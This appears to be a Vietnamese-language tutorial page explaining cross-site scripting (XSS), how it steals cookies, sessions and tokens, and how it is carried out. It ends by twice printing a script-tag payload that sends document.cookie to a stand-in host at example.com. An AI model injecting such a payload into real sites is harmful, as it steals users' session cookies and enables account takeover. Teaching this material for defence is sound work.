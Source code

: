# The largest heading
## The second largest heading
###### The smallest heading
![image](https://user-images.githubusercontent.com/54978467/134615358-41820711-e2dc-4506-9f6a-d4537bd74352.png)

**1. Cross-site scripting XSS là gì?**
Cross-site scripting (a.k.a XSS) là một lỗ hổng bảo mật web phổ biến và dễ bị tấn công nhất cho phép kẻ tấn công thực thi script trên Client.

Thông thường, các cuộc tấn công XSS được sử dụng để vượt qua truy cập và mạo danh người dùng.

Mục đích chính của cuộc tấn công này là ăn cắp dữ liệu nhận dạng của người dùng như:

cookies
session
token
các thông tin khác....
Trong hầu hết các trường hợp, cuộc tấn công này đang được sử dụng để ăn cắp cookie của người khác.

Như chúng ta biết, cookie giúp ta đăng nhập tự động.

Do đó khi cookie bị đánh cắp, ta có thể đăng nhập bằng các thông tin nhận dạng khác.

Và đây là một trong những lý do, tại sao cuộc tấn công này được coi là một trong những cuộc tấn công nguy hiểm nhất.

Tấn công XSS đang được thực hiện ở phía client.

Nó có thể được thực hiện với các ngôn ngữ lập trình phía client khác nhau.

Tuy nhiên, thường xuyên nhất cuộc tấn công này được thực hiện với Javascript và HTML.

2. XSS được thực hiện như thế nào?
Tấn công XSS là gửi và chèn script độc hại, những mã độc này được viết bằng các ngôn ngữ ở client như Javascript, HTML, CSS VBScript,... Tuy nhiên phổ biến nhất là Javascript và HTML. Có rất nhiều các thức để thực hiện cuộc tấn công này, phụ thuộc vào nhiều trường hợp khác nhau.

a. Nguyên nhân
[<script>fetch(`http://example.com/hacked.php?xss=${document.cookie}`)</script>]

<script>fetch(`http://example.com/hacked.php?xss=${document.cookie}`)</script>
